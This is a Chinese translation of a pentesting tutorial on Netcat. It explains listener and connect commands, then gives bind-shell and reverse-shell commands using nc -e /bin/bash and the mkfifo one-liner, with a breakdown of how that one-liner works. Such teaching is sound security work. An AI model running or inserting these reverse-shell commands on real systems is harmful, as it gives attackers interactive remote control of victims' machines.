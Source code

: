 # 使用 Netcat 创建绑定和反向 Shells

> 原文：<https://infosecwriteups.com/create-bind-and-reverse-shells-using-netcat-c53b23df8059?source=collection_archive---------1----------------------->

Netcat ( **nc** ， **ncat** ，或者有些人可能更喜欢称之为网络的瑞士军刀)是一个命令行实用程序，每个有自尊的 pentester 都应该随身携带。攻击者经常使用 Netcat 在目标机器上创建反向外壳。本文将介绍实现这一点的不同方法。

在开始之前，本文假设您对网络、计算机如何通信以及什么是端口和 IP 地址有基本的了解。如果这听起来像中文，那么你应该先学习一下计算机网络。Patchthenet 的入门[网络教程](https://patchthenet.com/computer-networking/)是一个很好的起点。

话虽如此，我们还是开门见山吧。

![](img/f1b126d4593ba5569042e9523423dd53.png)

# Netcat 简介

**Netcat** 是一个命令行工具，用于建立 TCP 和 UDP 网络连接，并对它们进行读/写。

试图解释这个工具的不同应用将需要一整本书，而不仅仅是一篇文章。

因此，为了避免冗长的帖子让你厌烦，我们将在这里介绍 Netcat 在 Pentesting 和 Ethical Hacking 中的基本用法，因为这就是我们在这里的目的，对吗？

在最基本的层面上，Netcat 只是一个通过网络与两个节点之间的连接进行交互(读/写)的工具。

## 使用 Netcat 创建网络连接

为了在两个节点之间建立网络连接，其中一个节点需要监听特定的端口，而另一个节点启动到该端口的连接。

在第一个节点上，您可以通过运行以下命令来激活监听端口。

```
nc -l -p <Port-Number>
```

l 标志表示您正在监听模式下运行 Netcat。

您必须在-p 标志后指定一个数字，以指示 Netcat 将监听哪个端口。

一旦运行了上面的命令，节点将打开指定的端口并等待传入的连接。

我们现在可以转到第二台机器并启动与监听节点的连接。

为此，您可以运行以下命令:

```
nc <IP-Address> <Port-Number>
```

提供的 IP 地址应该是监听节点的 IP 地址，端口号与我们之前用-p 标志指定的端口号相同。

现在，为了用一个真实的例子演示它是如何工作的，我启动了两个终端，并键入我们刚刚学习的两个命令来模拟一个连接。结果如下:

![](img/c6a959200a4137502bb962c4848d80b9.png)

对于 listener 命令，我们可以添加-v 标志，这将使 Netcat 更加冗长。这将在连接建立时显示一条消息，比黑屏更方便。

我们还可以添加-n 标志，这将告诉 Netcat 我们只处理 IP 地址，不需要 DNS 名称解析。这将使它更快。

通过组合所有这些标志，生成的侦听器命令将如下所示:

```
nc -lvnp <Port-number>
```

# 使用 Netcat 绑定和反转 Shells

现在我们已经对 Netcat 的工作原理有了一个概念，让我们花一点时间来讨论一些理论。

除非你是黑客或一般计算机科学的新手，否则你应该对 shell 有所了解。好吧，以防你不知道(这没什么不好意思的，我们都是来学习的)，这里有一个简短的定义。

一个 **shell** 基本上是任何一个从用户那里接受命令并把它们发送到操作系统层执行的程序。然后，它将这个执行的结果发送回用户。

Bash、cmd 和 Powershell 都是流行 shell 的例子。

作为 pentester，有时您会成功利用目标系统上的远程代码执行漏洞。现在，为了获得对该系统的初始访问权，您必须生成一个 shell，它将允许您在目标操作系统上交互式地运行命令。

要执行此操作，您将有两条路可走:**绑定**或**反向外壳**。

## 绑定外壳

生成 bind shell 要求您在目标系统上运行一个监听器，然后从您的机器上连接到该监听器。

建立连接的命令将与我们在上一节中看到的命令相同。

```
nc <IP-address> <Port-number>
```

但是，对于第二个命令，会有一点点不同。

```
nc -lvnp <Port-number> -e /bin/bash
```

当试图激活一个监听器时，`nc`命令会有另一个选项`-e`。当您使用此标志时，Netcat 将在建立连接后执行指定的命令。在这种情况下，我们提供了`/bin/bash`作为将要执行的命令。当连接建立后，这将在目标机器上给我们一个 bash shell。

![](img/d812a96483289986d512913fd412d4b2.png)

注意，这个命令只在 Linux 系统中有效。在 Windows 的情况下，有必要进行小的调整。你可以简单地用`cmd.exe`代替`/bin/bash`。

## 反向外壳

在反向 shell 中，黑客往往比绑定 shell 使用得更多，攻击者将在他们的机器上运行一个监听器。然后，他们将通过在目标机器上运行命令来启动连接，该命令将连接回攻击者正在运行的侦听器。

要生成反向 shell，您应该首先在您的机器上运行一个简单的监听器。

```
nc -lvnp <Port-number>
```

另一方面，在目标机器上运行命令时，我们必须提供-e 选项。

```
nc <IP-address> <Port-number> -e /bin/bash
```

一旦我们运行上面的命令，我们应该在我们的机器上得到一个反向的 shell。

![](img/41e45cf60a4456c3b514264fcb1b9ec4.png)

这里还是那句话，如果你针对的是 Windows 机器，可以用`cmd.exe`换`/bin/bash`。

## Mkfifo 和 Netcat 单行反向 Shell

在结束本文之前，我们应该讨论一个重要的命令。这是一个在黑客社区中非常流行的工具，经常被用来生成反向外壳。

有时，产生反向外壳的经典方法可能不起作用。当那发生时，你将不得不拿出大枪。这个一行程序会给你外壳，而其他人不会。你应该把它添加到你的测试库中，放在手边。

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP-Address> <Port-number> >/tmp/f
```

不要每次需要这个命令的时候都在不知道它如何工作的情况下复制并粘贴它，了解它如何工作以及为什么工作不是很好吗？好吧，如果你同意，那么这就是我们将要在这一部分讨论的内容。

我们可以将这一行分解为 3 个命令:

*   rm -f /tmp/f
*   mkfifo /tmp/f
*   cat/tmp/f |/bin/sh-I 2 > & 1 | NC<ip-address><port-number>>/tmp/f</port-number></ip-address>

**我们来分解一下**

现在，第一个命令很简单。如果文件/tmp/f 已经存在，它只是删除它。

接下来，我们使用命令 *mkfifo* 创建一个命名管道。一个**命名管道**(或 FIFO 文件)基本上是一个多个进程可以读写的文件。因此，当进程需要交换数据时，可以使用它。

然后，我们进入最后一个也是最有趣的命令:`cat /tmp/f|/bin/sh -i 2>&1|nc <IP-Address> <Port-Number> > /tmp/f`

该命令将首先读取前一个命令创建的 FIFO 文件的内容(`cat /tmp/f`)，并将其内容发送到`/bin/sh -i`。这将执行文件`/tmp/f`中的任何命令。

然后， *stderr* 将被重定向到 *stdout* ，这是由命令的`2>&1`部分暗示的。换句话说，这将把命令生成的任何错误重定向到标准输出。

在下一步中，Netcat 将把它从前面的命令中接收到的标准输出发送到具有给定 IP 地址和给定端口的主机:`nc <IP-Address> <Port-Number>`。当然，这假定有一台具有该 IP 地址的主机正在侦听该端口。

最后，netcat 将把它从远程主机接收到的任何数据发送到 FIFO 文件`> /tmp/f`。

然后，通过读取/tmp/f，使用/bin/sh 运行其内容，以此类推，循环再次开始

为了使这个过程更加清晰，我绘制了一幅图，展示了使用这个命令生成反向 shell 时会发生什么。这里，我们假设攻击者在反向 shell 上运行命令 *whoami* 。

![](img/685fae4c95d3070fc73fdd0bdd0a124c.png)

# 结论

我们已经到了这篇文章的结尾。我们已经学习了如何使用 Netcat，什么是绑定和反向 shells，如何使用 Netcat 创建它们，最后，我们分解了 mkfifo netcat 一行程序。现在，Netcat 对你来说应该不再是一个谜了。

*原载于 2022 年 4 月 18 日*[*【https://patchthenet.com】*](https://patchthenet.com/articles/create-bind-and-reverse-shells-using-netcat/)*。*